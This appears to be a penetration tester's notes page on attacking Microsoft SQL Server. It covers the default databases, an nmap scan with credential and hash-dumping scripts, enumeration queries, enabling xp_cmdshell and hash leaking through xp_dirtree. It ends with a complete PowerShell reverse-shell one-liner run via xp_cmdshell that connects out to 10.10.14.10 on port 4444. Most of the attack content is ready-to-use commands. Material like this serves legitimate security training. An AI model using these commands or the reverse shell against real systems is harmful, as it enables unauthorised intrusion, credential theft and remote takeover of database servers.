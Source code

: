 https://juggernaut-sec.com/mssql/

[Microsoft SQL](https://www.microsoft.com/en-us/sql-server/sql-server-2019) (`MSSQL`) is Microsoft's SQL-based relational database management system. Unlike MySQL, which we discussed in the last section, MSSQL is closed source and was initially written to run on Windows operating systems. It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET. There are versions of MSSQL that will run on Linux and MacOS, but we will more likely come across MSSQL instances on targets running Windows.

#### MSSQL Databases
MSSQL has default system databases that can help us understand the structure of all the databases that may be hosted on a target server. Here are the default databases and a brief description of each:

|Default System Database|Description|
|---|---|
|`master`|Tracks all system information for an SQL server instance|
|`model`|Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database|
|`msdb`|The SQL Server Agent uses this database to schedule jobs & alerts|
|`tempdb`|Stores temporary objects|
|`resource`|Read-only database containing system objects included with SQL server|
```
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```

```sql
-- Current user
SELECT SYSTEM_USER;

-- Connected login
SELECT ORIGINAL_LOGIN();

-- Current database
SELECT DB_NAME();

-- All databases
SELECT name FROM master.sys.databases;

-- SQL Server version
SELECT @@VERSION;
```

User Enumeration
```sql
-- Current user's roles
SELECT IS_SRVROLEMEMBER('sysadmin');  -- 1 if yes

-- All logins
SELECT name, type_desc, is_disabled FROM sys.server_principals;

-- All database users
SELECT name FROM sys.database_principals WHERE type IN ('S', 'U');

-- Role memberships
SELECT r.name AS role_name, m.name AS member_name
FROM sys.database_role_members rm
JOIN sys.database_principals r ON rm.role_principal_id = r.principal_id
JOIN sys.database_principals m ON rm.member_principal_id = m.principal_id;
```

Objects
```sql
-- Tables in current database
SELECT name FROM sys.tables;

-- Columns in a specific table
SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('your_table_name');

-- Stored procedures
SELECT name FROM sys.procedures;

-- Linked servers
EXEC sp_linkedservers;

-- Check for common sensitive tables
SELECT name FROM sysobjects WHERE xtype='U' AND name LIKE '%user%';

```

```sql
-- Check if xp_cmdshell is enabled
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell';

-- Enable xp_cmdshell (if sysadmin)
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

-- Run a command (if xp_cmdshell is enabled)
EXEC xp_cmdshell 'whoami';

-- Check current execution context
SELECT SYSTEM_USER, SESSION_USER, USER_NAME();
```

With access to the sql shell `xp_dirtree {path}` can be utilized to send an SMB request which can reveal hashes.

```
EXEC xp_cmdshell 'powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.14.10'',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> ''; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"';

```